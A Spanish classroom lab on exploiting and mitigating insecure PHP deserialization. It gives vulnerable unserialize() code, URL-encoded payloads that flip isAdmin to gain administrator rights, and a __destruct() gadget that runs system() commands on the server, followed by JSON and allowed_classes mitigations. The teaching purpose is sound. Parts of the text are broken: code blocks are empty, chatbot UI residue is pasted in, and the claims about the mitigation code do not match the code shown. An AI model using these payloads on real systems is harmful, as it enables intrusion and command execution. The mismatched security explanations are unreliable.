




# PPS-Unidad3Actividad-DeserializacionInsegura
Explotación y Mitigación de vulnerabilidad de Deserialización Insegura
Tenemos como objetivo:

> - Ver cómo se pueden hacer ataques de Deserialización insegura.
>
> - Analizar el código de la aplicación que permite ataques de Deserialización insegura.
>
> - Explorar la deserialización insegura y mitigarlo con JSON
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

## ¿Qué es Unsafe Deserialization?
---

La deserialización insegura ocurre cuando una aplicación carga objetos serializados sin validación, lo que permite que un atacante modifique los datos y ejecute código arbitrario.

Impacto de la Deserialización Insegura:

• Escalada de privilegios (ejemplo: convertir un usuario normal en administrador).

• Ejecución de código remoto (RCE) si la aplicación permite __wakeup() o __destruct().

• Modificación de datos internos en la aplicación.

## ACTIVIDADES A REALIZAR
---
> Lee detenidamente la sección de vulnerabilidades de subida de archivos.  de la página de PortWigger <https://portswigger.net/web-security/deserialization>
>
> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Remote Code Execution](./files/ExplotacionYMitigacionDeserializacionInsegura.pdf)
> 

Vamos realizando operaciones:

### Iniciar entorno de pruebas

-Situáte en la carpeta de del entorno de pruebas de nuestro servidor LAMP e inicia el escenario multicontenedor escribiendo en el terminal de comandos o en el PowerShell:

~~~
docker-compose up -d
~~~

## Código vulnerable
---

La vulnerabilidad aparece debido a la creación de objetos, de manera que para pasar objetos a través de la red entre diferentes funciones serializamos los datos para que puedan ser transmitidos a través de dicho medio. 

La vulnerabilidad se explota en la deserialización de los datos de usuario sin validación (unserialize($_GET['data'])) y permite modificar el objeto y otorgar privilegios no autorizados.

Para mostrar las variables del objeto serializado vamos a crear un archivo vulnerable con nombre **MostrarObjeto.php** con el siguiente contenido:

~~~
<?php
class User {
    public $username;
    public $isAdmin = false;

}

if (isset($_GET['data'])) {
    $data = $_GET['data'];
    $obj = @unserialize($data);

    echo "<h3>Objeto deserializado:</h3>";
    echo "<pre>";
    print_r($obj);
    echo "</pre>";

    // Opcional: forzar destrucción
    unset($obj);
} else {
    echo "No se proporciona� ningun dato.";
}

~~~

También vamos a crear un archivo con nombre GenerarObjeto.php para visualizar los datos serializados y mostrar un enlace a MostrarObjeto.php

~~~
<?php
class User {
    public $username;
    public $isAdmin = false;
}

$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';

    $serialized = serialize($user);
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto Serializado</title>
</head>
<body>
    <h2>Generar objeto serializado</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required>  

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select>  

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea>  

        

            <strong>Enlace para probar:</strong> 
            <a href="MostrarObjeto.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        

    <?php endif; ?>
</body>
</html>

**¿Qué te permite hacer esto?**

- Crear objetos User con isAdmin = true o false.

- Ver la cadena serializada.

- Probar directamente el exploit en tu script MostrarObjeto.php (o el que verifica isAdmin).

Vemos como el objeto serializado sería: `O:4:"User":2:{s:8:"username";s:4:"Raul";s:7:"isAdmin";b:0;}`

... y nos dá el enlace parar probarlo, enviándolo a MostrarObjeto.php

~~~
http://localhost/MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A4%3A%22Raul%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A0%3B%7D
~~~

~~~

##  Explotación de Deserialización Insegura
---

Por lo tanto a la hora de intercambiar objetos entre diferentes módulos, pasamos el objeto serializado.

Esto puede ser utilizado por atacantes, para enviar a nuestros códigos PHP la seriealización modificada.
 

**Crear un objeto malicioso en PHP**

Como podemos ver, del enlace generado, cualquier persona puede saber, el nombre del tipo de objetos, variables y valores que tienen.

Por ejemplo, el usuario Raul podría:

**1 - Modificar la serialización.**

El objeto serializado es: 

~~~
MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A4%3A%22Raul%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A**0**%3B%7D
~~~

Podemos cambiar los datos del valor IsAdmin:

~~~
MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A4%3A%22Raul%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A**1**%3B%7D 
~~~

Raul podría haber cambiado su estado, convirtiéndose en administrador.

**2 - Crear un archivo para crear la serialización con los datos que desee**

Crear el archivo **HackerAdmin.php**  y ejecutar este código en la máquina atacante:

~~~
<?php
class User {
	public $username = "hacker";
	public $isAdmin = true;
}
echo urlencode(serialize(new User()));
?>
~~~

Salida esperada (ejemplo):

~~~
O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D
~~~

Este objeto serializado podemos usarlo para enviarlo a MostrarObjeto.php y así hacker sería administrador.

- Copiar la salida obtenida

- Acceder a esta URL en el navegador `http://localhost/MostrarObjdeto.php?data=` y concatenarla con el código obtenido:

Al mandarlo, tendríamos el mismo resultado, Hacker se convierte en `Admin`.

~~~
http://localhost/MostrarObjdeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D
~~

**Intentar RCE con __destruct()**

Si la clase User tiene un método __destruct(), se puede abusar para ejecutar código en el servidor. Este es el riesgo mayor al explotar la deserialización.

Aquí tenemos nuestra clase modificada con Destruct(). Crea el fichero **GenerarObjeto1.php**

~~~
<?php
class User {
    public $username;
    public $isAdmin = false;
    public $cmd;

    public function __destruct() {
        if (!empty($this->cmd)) {
            //echo "<pre>Ejecutando comando: {$this->cmd}\n";
            system($this->cmd);
            //echo "</pre>";
        }
    }
}
$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';

    $serialized = serialize($user);
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto Serializado</title>
</head>
<body>
    <h2>Generar objeto serializado</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required>  

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select>  

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea>  

        

            <strong>Enlace para probar:</strong> 
            <a href="MostrarObjeto.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        

    <?php endif; ?>
</body>
</html>

~~~

Este cambio introduce:

- Una nueva propiedad $cmd que contendrá el comando a ejecutar.

- El método __destruct() que se dispara automáticamente al final del script (cuando el objeto es destruido), lo que lo hace perfecto para ilustrar la explotación por deserialización.

Vamos a modificar el objeto malicioso para introducir un código a ejecutar. El atacante de esta manera, podría serializar el objeto introduciendo un código para ejecutar en nuestro servidor, Este archivo lo llamo *explotarGenerarObjeto1.php**:

~~~
<?php
class User {
    public $username;
    public $isAdmin = false;
    public $cmd;

    public function __destruct() {
        if (!empty($this->cmd)) {
            // ⚠️ Ejecución insegura de código del sistema
            echo "<pre>Ejecutando comando: {$this->cmd}\n";
            system($this->cmd);
            echo "</pre>";
        }
    }
}

$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';
    $user->cmd = $_POST['cmd'] ?? '';

    $serialized = serialize($user);
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto Serializado</title>
</head>
<body>
    <h2>Generar objeto serializado con código ejecutable</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required>  

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select>  

        <label>Comando a ejecutar (ej: <code>whoami</code>):</label> 
        <input type="text" name="cmd" size="50">  

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea>  

        

            <strong>Enlace para probar:</strong> 
            <a href="MostrarObjeto1.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        

    <?php endif; ?>
</body>
</html>
~~~

🧪 Para la prueba

1. Marca "Sí" en la opción de administrador.

2. Escribe un comando como whoami, ls -l, id, etc.

3. Se serializa el objeto incluyendo ese comando.

4. Al deserializarlo en MostrarObjeto.php, se ejecuta automáticamente en el __destruct().

El atacante habría inyectado en la serialización la ejecución del comando `ls -l /tmp/output.txt`pero podría haber sido cualquier otro comando.

Vemos en el resultado que la ejecución no parece anómalo, pero veamos que ha pasado en el servidor.

Veamos que contiene el archivo `/tmp/output.txt`. 

Como nosotros extamos usando docker, o bien entramos dentros del servidor apacher y vemos el archivo, o ejecutamos el siguiente comando docker para que nos lo muestre:

~~~
docker exec -it lamp-php83 /bin/bash -c 'cat /tmp/output.txt'
~~~

Como vemos, hemos podido ejecutar comandos dentro del servidor. En este caso con el usuario www-data, pero si lo combinamos con otros ataques como escalada de privilegios, podríamos haber ejecutado cualquier comando.
---

## Mitigación de Unsafe Deserialization
---

### ¿Cómo Validar aún los datos?**
---
Si queremos mitigar realmente ese problema (que no se puedan añadir propiedades inesperadas), una estrategia efectiva es usar la interfaz Serializable o __wakeup() junto con la visibilidad privada o protegida de las propiedades, y una validación explícita del contenido deserializado.

Este código:

- Aún usa unserialize() (para propósitos educativos).

- Valida que el objeto es de la clase esperada.

- Valida que las propiedades están bien formadas (por tipo y existencia).

- Aún permite ver el riesgo de __destruct() si no se valida bien.

Para ello creamos el archivo **MostrarObjeto1.php**:

~~~
<?php
class User {
    public $username;
    public $isAdmin = false;

    public function __destruct() {
        if (!empty($this->cmd)) {
            echo "<pre>Ejecutando comando (simulado): {$this->cmd}</pre>";
            // system($this->cmd); // ← mantener comentado para pruebas seguras
        }
    }
}

if (isset($_GET['data'])) {
    $data = $_GET['data'];

    // Deserialización segura: solo se permite la clase User
    $obj = @unserialize($data, ['allowed_classes' => ['User']]);

    if (!$obj instanceof User) {
        echo "Error: El objeto deserializado no es de tipo User.";
        exit;
    }

    // Propiedades permitidas
    $propiedadesPermitidas = ['username', 'isAdmin'];

    // Obtener propiedades reales del objeto deserializado
    $propiedadesObjeto = array_keys(get_object_vars($obj));

    // Verificar que no hay propiedades adicionales
    $propiedadesExtra = array_diff($propiedadesObjeto, $propiedadesPermitidas);

    if (!empty($propiedadesExtra)) {
        echo "<h3>Error:</h3>";
        echo "El objeto contiene propiedades no permitidas: <pre>" . implode(", ", $propiedadesExtra) . "</pre>";
        exit;
    }

    // Validar tipos de propiedades
    $errores = [];

    if (!isset($obj->username) || !is_string($obj->username)) {
        $errores[] = "El campo 'username' no está definido o no es una cadena.";
    }

    if (!isset($obj->isAdmin) || !is_bool($obj->isAdmin)) {
        $errores[] = "El campo 'isAdmin' no está definido o no es booleano.";
    }

    if (!empty($errores)) {
        echo "<h3>Errores de validación:</h3><ul>";
        foreach ($errores as $e) {
            echo "<li>" . htmlspecialchars($e) . "</li>";
        }
        echo "</ul>";
        exit;
    }

    echo "<h3>Objeto deserializado válidamente:</h3>";
    echo "<pre>";
    print_r($obj);
    echo "</pre>";

    // Forzar destrucción
    unset($obj);
} else {
    echo "No se proporciona ningún dato.";
}

Esta versión:

- Usa propiedades privadas

- Implementa la interfaz Serializable

- Valida manualmente los datos antes de restaurarlos

- Impide que se inyecten propiedades no autorizadas

**Explicación de la Validación de Claves**
---

~~~
http://localhost/deserialize_full.php?data={"username":"hacker","isAdmin":true, "bypass":"0"}
~~~

Si se detecta un parámetro no permitido (bypass en este caso), se muestra el error:

`Error: Clave inválida detectada`

✅ ¿Qué mejora esta versión?

- No se pueden inyectar propiedades personalizadas, ya que solo se deserializa lo que explícitamente se espera.

- No hay ejecución de comandos.

- Control total de cómo se deserializa el objeto.

### Utilizando JSON 
---

La mejor forma de evitar ataques de deserialización insegura es NO usar unserialize() con datos externos.

Usar JSON en lugar de serialize().

Además, si quieresmos reforzar aún más la seguridad, podemos validar los datos con una lista blanca. 

Creamos el archivo **MostrarObjetoJson.php**:

~~~
~~~

Vamos a crear también el archivo php desde el que vamos a pasar datos en formato JSON para probar **GenerarObjetoJson.php**:

~~~

~~~
Ahora vemos como nos da error en el caso de que intentemos meter los objetos serializados en vez de mandarlos en forma de JSON.

**Beneficios de Usar JSON**:
- json_decode() NO ejecuta código PHP, evitando RCE.
- Validación explícita de los datos, sin riesgo de objetos maliciosos.
- Mayor compatibilidad con APIs y aplicaciones en otros lenguajes.
- Evita la ejecución de métodos mágicos como __wakeup() y __destruct().

Usar JSON en lugar de serialize()/unserialize() es una de las mejores formas de evitar la deserialización insegura, ya que JSON solo representa datos, no objetos con métodos o comportamientos.

Aquí te dejo el ejercicio modificado con mitigación basada en JSON, incluyendo validaciones:

🛡️ Parte 2 (alternativa): Código seguro usando JSON
✅ Código (seguro_json.php)
php
Copiar
Editar
<?php
class User {
    private $username;
    private $isAdmin = false;
    private $cmd;

    public function __construct($username, $isAdmin, $cmd) {
        $this->username = $username;
        $this->isAdmin = $isAdmin;
        $this->cmd = $cmd;
    }

    public function __toString() {
        return "Usuario: {$this->username} " .
               "Es administrador: " . ($this->isAdmin ? "Sí" : "No") . " " .
               "Comando: " . htmlspecialchars($this->cmd);
    }
}

if (isset($_GET['data'])) {
    $json = $_GET['data'];

    $data = json_decode($json, true);

    // Validación de estructura y tipos
    if (json_last_error() !== JSON_ERROR_NONE) {
        echo "JSON mal formado.";
        exit;
    }

    if (!isset($data['username'], $data['isAdmin'], $data['cmd']) ||
        !is_string($data['username']) ||
        !is_bool($data['isAdmin']) ||
        !is_string($data['cmd'])) {
        echo "Datos inválidos.";
        exit;
    }

    // Crear objeto validado
    $user = new User($data['username'], $data['isAdmin'], $data['cmd']);

    echo "<h3>Datos recibidos:</h3>";
    echo "<pre>{$user}</pre>";
} else {
    echo "No se proporciona ningún dato.";
}
🧪 Cómo probarlo
Crea el siguiente payload en un archivo payload.php:

php
Copiar
Editar
<?php
$data = [
    "username" => "alumno",
    "isAdmin" => true,
    "cmd" => "id" // esto no se ejecutará, solo se mostrará como texto
];
echo urlencode(json_encode($data));
Usa el resultado en el navegador así:

arduino
Copiar
Editar
http://localhost/seguro_json.php?data=[PAYLOAD]
✅ Ventajas de usar JSON
No permite ejecutar código, solo transportar datos.

No crea objetos automáticamente, por lo que no hay métodos mágicos como __destruct() que se ejecuten.

Es más legible y portable entre lenguajes.

La ejecución solo se permitirá si los datos contienen exclusivamente **username** y **isAdmin**.

Aquí está el código securizado:

🔒 Medidas de seguridad implementadas

- :

        - 

        - 

🚀 Resultado

✔ 

✔ 

✔ 

## ENTREGA

> __Realiza las operaciones indicadas__

> __Crea un repositorio  con nombre PPS-Unidad3Actividad6-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

> __Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__

